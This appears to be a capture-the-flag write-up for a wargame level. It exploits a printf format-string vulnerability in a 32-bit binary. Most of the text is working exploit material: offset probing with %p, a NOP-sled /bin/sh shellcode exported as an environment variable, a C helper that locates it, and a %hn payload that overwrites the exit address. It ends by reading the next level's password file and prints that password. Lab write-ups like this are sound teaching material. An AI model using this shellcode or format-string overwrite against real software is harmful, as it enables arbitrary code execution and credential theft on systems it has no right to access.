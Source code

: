 We get the binary out of the Vm using this cmd:

`scp -P 4242 level05@192.168.56.103:./level05 .binary/level2`

printf exploit, find the offset :\
We know addr of the prnitf format string (our input) is `0x0804846e`

`python -c "print '\x08\x04\x84\x6e'[::-1] + '%p '* 10" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level05`

we got this
```
n0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ff 0xffffd5fe (nil) 0xffffffff 0xffffd684 0xf7fdb000 0x804846e 
```
so offset is 10

Lets put a shellcode in a env variable
`export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")`

We need it's addr so let's use a small c file :
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc != 2)
		return (printf("need te env var you want the addr of\n"));
	printf("Var [%s] at addr [%p] = [%s]\n", argv[1], getenv(argv[1]), getenv(argv[1]));
	return 0;
}
```

compile with flag -m32 to get the 32 bit addr


* shellcode addr : `0xffffd80f` => decimal => 4294957071 (it's big, let's put it in two part)
					65535  55311
* addr of exit   : `0xf7e5eb70`

We want to put short value like this:

`\x08\x04\x97\xe0` + 2 <= `ffff` <= 65535
`\x08\x04\x97\xe0`     <= `d80f` <= 55311


python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55303c' + '%10\$hn' + '%10224c' + '%11\$hn'"> /tmp/exploit_5; cat /tmp/exploit_5 - | ./level05

```
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
